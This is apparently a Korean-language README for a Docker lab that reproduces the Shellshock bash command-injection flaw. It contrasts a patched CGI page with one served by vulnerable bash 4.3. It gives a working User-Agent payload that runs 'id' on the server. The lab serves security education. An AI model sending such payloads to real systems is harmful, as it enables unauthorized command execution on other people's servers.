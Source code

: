 # Shellshock Remote Command Injection
**Contributor** <br>
[이정빈(binsh0501)](https://github.com/binsh0501)

취약한 환경 구축 및 실행
```
docker compose build
docker compose up -d
```
`http://your-ip/` 에 방문하면 두 개의 파일이 표시됩니다.
- safe.cgi
- victim.cgi

safe.cgi 는 최신 버전 bash 에서 생성되었으며 victim.cgi 는 Shellshock에 취약한 bash 4.3 에서 생성된 페이지입니다.
victim.cgi 를 방문할 때 user-agent 문자열에 페이로드를 포함시켜 보낼 수 있고 명령이 성공적으로 실행됩니다.<br>
`() { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id`
![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/af6332d1-1a33-4f48-a678-2b7d67614fa2)

safe.cgi 로 전송된 동일한 요청은 영향을 받지 않습니다.

![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/d732ba21-1cbb-4465-abc9-f0fae90fdb40)
